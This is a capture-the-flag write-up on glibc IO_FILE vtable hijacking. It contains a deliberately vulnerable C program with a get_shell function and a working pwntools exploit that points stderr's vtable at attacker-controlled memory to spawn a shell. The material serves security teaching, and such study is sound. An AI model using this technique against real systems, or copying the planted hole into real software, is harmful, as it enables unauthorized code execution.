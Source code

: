 ```yaml
---
title: "IO_File Vtable - CTF"
tags:
  - Pwn
  - CTF 
  - IO_File
---
```


This is a problem based on_IO_file Vtable.


# Introduction

The file stream feature (FILE) in Linux. We can see that some common IO operation functions in Linux need to be processed through the FILE structure. In particular, there is a vtable in the *_IO_FILE_plus* structure, and some functions will fetch the pointers in the vtable for calling.

Therefore, the central idea of the fake vtable hijacking process is to implement the vtable of _IO_FILE_plus by pointing the vtable to the memory we control and placing the function pointer in it.

Therefore, vtable hijacking is divided into two types. One is to directly rewrite the function pointer in the vtable, which can be realized by writing at any address. The other is to overwrite the vtable pointer to the memory we control, and then arrange the function pointer in it.

*_IO_FILE* The structure is as follows:

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```


# Vulnerable Source Code 

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char name[8];
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    int idx = 0;
    int sel;

    initialize();

    printf("what is your name: ");
    read(0, name, 8);
    while(1) {
        printf("1. print\n");
        printf("2. error\n");
        printf("3. read\n");
        printf("4. chance\n");
        printf("> ");

        scanf("%d", &sel);
        switch(sel) {
            case 1:
                printf("GOOD\n");
                break;
            case 2:
                fprintf(stderr, "ERROR\n");
                break;
            case 3:
                fgetc(stdin);
                break;
            case 4:
                printf("change: ");
                read(0, stderr + 1, 8);
                break;
            default:
                break;
            }
    }
    return 0;
}
```

# Analysis 

The key vulnerability lies in the read(0, stderr + 1, 8) call in case 4 of the switch statement. This allows the attacker to overwrite 8 bytes of memory starting at stderr + 1, which is the address of the _IO_file_jumps vtable.

![](image.png)

from the gdb we notice that The value that is added to stderr by 0xd8 is used as a parameter of the read function 

![alt text](image-1.png)

Okey so *stderr+1* received from read is the address of the *vtable*. (To be exact, it is the address of *_IO_file_jumps*.) Then, the read function will add the _vtable_offset value in its structure to _IO_file_jumps and refer to the necessary function and we can execute the desired function by inserting a fake vtable address through :

```c 
read(0, stderr + 1, 8); 
```


![jumps](image-2.png)

We can change the address of the vtable in the read function. In the case of the frpintf function (fwrite), the *_IO_new_file_xsputn* function is called, and the *_vtable_offset* set at that time is 0x38 when the *fprintf()* function is called, it calls the address of __xsputn at offset 0x38 of _IO_file_jumps. Therefore, if we input the address of the *get_shell()* function in the name variable and the address of the name variable -0x38 in the read function in case 4, we will be able to exploit it.

```python
from pwn import *
context.update(arch='amd64', os='linux')
context.log_level = 'debug'
p = process("./iofile_vtable")
elf = ELF("./iofile_vtable")
libc = ELF("./libc-2.27.so")

get_shell = 0x40094a
fake__xsputn = 0x6010d0-0x38

p.sendlineafter(b"what is your name: ", p64(get_shell))
pause()

p.sendlineafter(b"> ", b"4")
p.sendlineafter(b"change: ", p64(fake__xsputn))
p.sendlineafter(b"> ", b"2")

p.interactive()
```

To exploit this vulnerability, we need to understand the structure of the _IO_FILE object and the _IO_file_jumps vtable.
The _IO_FILE structure contains a _vtable_offset field, which is used to index into the _IO_file_jumps vtable. When functions like *fprintf()* or *fwrite()* are called on the _IO_FILE object, they use this offset to call the corresponding function pointer in the vtable.
By overwriting the _IO_file_jumps vtable with our own values, we can hijack the control flow and execute arbitrary code. Specifically, we can overwrite the __xsputn function pointer (at offset 0x38 in the vtable) with the address of the *get_shell()* function, and overwrite the address of the name variable (minus 0x38) as the new vtable pointer.

